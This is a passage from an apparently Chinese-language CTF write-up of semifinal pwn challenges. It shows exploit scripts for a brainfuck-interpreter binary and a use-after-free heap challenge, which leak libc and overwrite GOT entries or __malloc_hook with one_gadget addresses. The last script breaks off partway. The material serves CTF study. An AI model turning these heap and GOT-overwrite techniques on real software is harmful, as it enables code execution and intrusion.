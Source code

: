 ```python
base = int(ru('\n'),16)-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
puts = base + libc.sym['puts']

logout()
reg(0x20, p64(elf.got['puts']))
login(p64(puts))
edit(p64(base+0x4526a)[:-2])
```


## semifinal_pwn2

这题比较有意思，程序是一个 brainfuck 解释器，规则是：
- `<`： `p--`
- `>`： `p++`
- `.`： `putc(*p)`
- `,`： `read(0,p,1)`
- `+`： `*p++`
- `-`： `*p--`

换句话说已经可以构造任意地址读写了，那么首先利用上述规则泄露 `stdin` 来泄露 libc，然后用 one_gadget 覆盖 got 表。

```python
stdin = 0x602090
star = 0x6020c0
exit = elf.got['exit']

payload = '<'*(star-stdin) + '.>.>.>.>.>.>'
payload += '<'*(stdin+6-exit) + ',>,>,>,>,>,'
sla(':',payload)
stdin = uu64(r(6))
base = stdin - libc.sym['_IO_2_1_stdin_']
leak('base',base)
one = p64(base + 0xf1147)

for i in range(6):
	s(one[i])
```

## semifinal_pwn3

本题当输入选项为 `1337` 时会调用一个奇怪的函数，但实际上由于 uaf 漏洞的存在这个函数并没有什么用。还有一个比较少见的 `clean` 功能用于清除所有指针，这里是不存在 uaf 的。

我们可以直接 unsorted bin 泄露 libc（这里是通过 `clean` 功能清楚指针，重新申请到释放的 small chunk 后泄露 `bk`），然后 double free 写 `malloc_hook`，最后故意 double free 触发 `malloc_print_err`，调用 `malloc_hook`。

```python
def clean():
	sla('choice :', 4)

add(0x80)
add(0x60)
add(0x60)
free(0)
clean()
add(0x80)
show()
ru('a'*8)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
malloc_hook = base + libc.sym['__malloc_hook']
one = base + 0xf02a4

free(1)
```